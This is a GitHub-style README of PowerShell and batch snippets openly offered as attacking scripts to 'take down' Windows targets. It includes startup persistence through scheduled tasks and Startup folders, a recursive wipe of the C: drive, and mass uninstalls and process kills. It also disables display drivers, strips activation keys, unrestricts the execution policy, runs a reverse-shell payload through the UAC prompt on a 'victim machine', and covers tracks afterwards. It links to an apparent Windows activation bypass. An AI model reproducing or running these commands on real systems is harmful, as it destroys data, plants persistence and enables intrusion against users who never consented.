 # Here You can Find Attacking Script's to take down target

### ⚠️ Warning ⚠️
**Test The scripts in virtual Environments . Am not responsible if any error or damage occures to your main**

<br>
<h2>All Script's works in Latest Version of windows <br>
 <h4>Note : Some scripts and codes may requires Admin! while working on with kernel Mode ! </h4>

<br>

<b>EFFECTIVE AND EASIEST WAY TO START YOUR PROGRAMS WHEN SYSTEM STARTUP <a href="#9--run-your-script-at-windows-startup-" > Down </a>
</b>

## 1. Save process to start specfic script when windows Boot up [OLDER VERSIONS]

```
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "C:\Path\To\Your\Script.ps1";
$trigger = New-ScheduledTaskTrigger -AtStartup;
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "My Startup Task" -Description "Runs my script at startup" -RunLevel Highest -Force
``` 

It should contain payload at same executable computer ! 

## 1(a). The payload was saved Via variables ! [OLDER VERSIONS]

```
$payload = @";
Start-Process powershell.exe -ArgumentList "Payload-Script Here";
"@ ;

$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Command $payload";
$trigger = New-ScheduledTaskTrigger -AtStartup;
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "My Startup Task" -Description "Runs my script at startup" -RunLevel Highest -Force
```

## 1(c) . New Method 

```
New-Item -ItemType File -Path "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\myscript.lnk" -Value "C:\path\to\my\script.ps1"

```
Replace myscript with the name you want to give to the shortcut, and C:\path\to\my\script.ps1 with the path to your script.

## 2. Format or Delete C:// Drive. (Win 10,11)

`Get-ChildItem -Path C:\ -Recurse -Force | Remove-Item -Recurse -Force`

It Requirds Admin . Dont even exe this  script on ur system !

## 3. Uninstall All programs in Windows PC
```
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, UninstallString | Where-Object { $_.UninstallString -ne $null } | ForEach-Object { Start-Process cmd -ArgumentList "/C $($_.UninstallString) /quiet /norestart" -Wait }
```
## 4. Remove Windows Activation Keys in Seconds !

Check Weather Key is Activated : `slmgr.vbs /upk`<br>

To Remove Key : `slmgr.vbs /dlv`

Tips : To Reactivate the Windows . I Have Created Powershell script which might be helpful to you if you are a os hopper . <a href="https://github.com/Whitecat18/windows-10-Activator.git" > Windows 10 Activator </a> 

## 5 . Get an Reverse Shell As Admin (Luck):

```
start-process powershell.exe -ArgumentList "<Payload script Here>" -Verb RunAs
```
This will Run the payload in victim machine . once the Victim gives yes . The payload will Enter and will close , but we got an Rev, shell !
 
## 6. Disable explorer.exe temp

```
Get-Process explorer | Stop-Process -Force
```

## 7 . Remove OEM , RETAIL and Volume Keys From Windows . 

Click here <a href="https://github.com/Whitecat18/Ps-script-for-Hackers-and-Pentesters/blob/main/scripts/win-key-killer.ps1" > win-keykiller.ps1 </a> to download ps1 script . this Script removes All Types of Windows Keys. <br><br>
To Activate Windows Keys Again . Use My Windows Activator that activates Windows in Minutes . <a href="https://github.com/Whitecat18/windows-10-Activator.git" > Windows Activator </a>

## 8 . Disable Display Driver using Powershell

```
$displayDevices = Get-PnpDevice | Where-Object {$_.Class -eq 'Display' -and $_.Status -eq 'OK'}

foreach ($device in $displayDevices) {
    Disable-PnpDevice -InstanceId $device.InstanceId -Confirm:$false

    $disabledDevice = Get-PnpDevice -InstanceId $device.InstanceId
    if ($disabledDevice.Status -eq 'OK') {
        Write-Host "Failed to disable device: $($device.Description)"
    } else {
        Write-Host "Device disabled successfully: $($device.Description)"
    }
}
```
**RUN THE SCRIPT AS ADMINISTRATOR**

## 9 . Run your Script at Windows Startup !

```
@echo off
powershell.exe "C:\Windows\Temp\ps.ps1"
```

Save this file with extension .bat and save the Files in any of these 2 Paths .  

* For all users: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`
* For the current user: `C:\Users\<YOUR-USer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

<b>Dont Forget to change the path ! </b>

## 10 . Delete Your Temp Path 

While you are testing some tools , running some scripts etc . It is important to del all the temp files before leaving the Victim Machine 

Script -> <b><a href="https://github.com/Whitecat18/Powershell-Scripts-for-Hackers-and-Pentesters/blob/main/scripts/del_temp.ps1" > Link </a></b>

## 11 . Check If the Shell is Admin

### Method 1
```
$isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.
WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrato
r); echo ------; $isAdmin ; echo ------
```
The above command says True If the Executed shell is Admin . Else it will display as False

### Method 2

```
function Check-IsElevated { $id = [System.Security.Principal.WindowsIdentity]::GetCurrent(); $p = New-Object System.Security.Principal.WindowsPrincipal($id); if ($p.IsInRole([System.Security.Principal.WindowsBuiltInRole]::Administrator)) { Write-Output $true } else { Write-Output $false } }; if (-not(Check-IsElevated)) { Write-Host "Shell : Not Administrator" } else { write-host "Shell : Administrator" }
```
The Above script is similar but it will display as Administrator if its Exec at Admin Shell . Else  Not Administrator .  

## 12 . Remove All Windows Features 

```
Get-WindowsFeature | Where-Object { $_.InstallState -eq "Installed" } | ForEach-Object {
    Uninstall-WindowsFeature -Name $_.Name -Remove
}
```

Removes All Features provided by Windows

## 13 . A Mini Script to Kill all Process 

```
Get-Process | ForEach-Object {
    Stop-Process -Id $_.Id -Force
}
```

## 14 . Permanent Execution policy 

```
# Execution policy for LocalMachine
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' -Name ExecutionPolicy -Value Unrestricted

# Execution policy for CurrentUser
Set-ItemProperty -Path 'HKCU:\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' -Name ExecutionPolicy -Value Unrestricted

# Execution policy for the current process
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' -Name ExecutionPolicy -Value Unrestricted
```

Unrestrict the policy via registry entry . 
